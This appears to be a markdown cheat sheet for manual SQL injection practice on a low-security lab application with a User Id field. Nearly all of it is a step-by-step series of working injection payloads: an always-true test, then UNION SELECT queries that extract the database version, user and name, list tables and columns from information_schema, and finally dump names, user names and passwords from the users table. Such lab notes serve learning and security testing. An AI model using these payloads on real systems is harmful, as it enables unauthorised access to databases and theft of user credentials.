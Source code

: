 # Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash
 %' or '1'='1 
```
 (Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash 
%' or 0=0 union select null, version() #
 ```  (# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash 
%' or 0=0 union select null, user() # 
```

### DB name employed to this particular site
```bash
 %' or 0=0 union select null, database() # 
```

### Displaying tables as information scema
```bash 
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # 
```


[guessing table name start with prefix user and then anything could be...]

```bash
 %' and 1=0 union select null, table_name from information_schema.tables # 
``` [displaying all the tables]

### Interest Zone--Users Table-->
```bash
 %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # 
```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information
```bash 
%' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # 
```
